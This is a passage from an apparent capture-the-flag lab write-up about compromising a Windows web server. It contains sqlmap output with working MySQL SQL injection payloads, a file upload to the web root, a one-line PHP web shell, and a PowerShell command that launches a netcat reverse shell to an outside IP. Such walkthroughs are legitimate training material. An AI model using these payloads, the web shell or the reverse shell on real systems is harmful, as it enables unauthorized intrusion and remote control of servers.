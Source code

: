 ```aaa

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=name' AND (SELECT 4131 FROM(SELECT COUNT(*),CONCAT(0x7178627071,(SELECT (ELT(4131=4131,1))),0x7176627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- dzoa

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=name';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=name' AND (SELECT 4951 FROM (SELECT(SLEEP(5)))YygG)-- NmJz

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=name' UNION ALL SELECT NULL,CONCAT(0x7178627071,0x6a49496f58625764426b464f4c6f6f4d746c4556795965514d6442736f747a527778414d726c7a64,0x7176627871),NULL,NULL,NULL,NULL#
---
[17:27:43] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:27:43] [INFO] fingerprinting the back-end DBMS operating system
[17:27:43] [INFO] the back-end DBMS operating system is Windows
[17:27:44] [WARNING] potential permission problems detected ('Access denied')
[17:27:44] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)            
do you want confirmation that the local file 'baud.php' has been successfully written on the back-end DBMS file system ('C:/inetpub/wwwroot/uploads/baud3.php')? [Y/n] y
[17:27:47] [INFO] the local file 'baud.php' and the remote file 'C:/inetpub/wwwroot/uploads/baud3.php' have the same size (80 B)
[17:27:47] [INFO] fetched data logged to text files under '/home/baud/.sqlmap/output/10.10.10.167'
[17:27:47] [WARNING] you haven't updated sqlmap for more than 65 days!!!

[*] ending @ 17:27:47 /2020-04-06/
```

The shell is very simple and only has the purpose of giving me the ability to launch a different shell since I wasn’t able to execute OS commands from sqlmap itself using --os-cmd or --os-shell:

```php
<html>
<body>
	<pre>
	<?php
		system($_GET['cmd']);
	?>
	</pre>
</body>
</html>
```


[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }
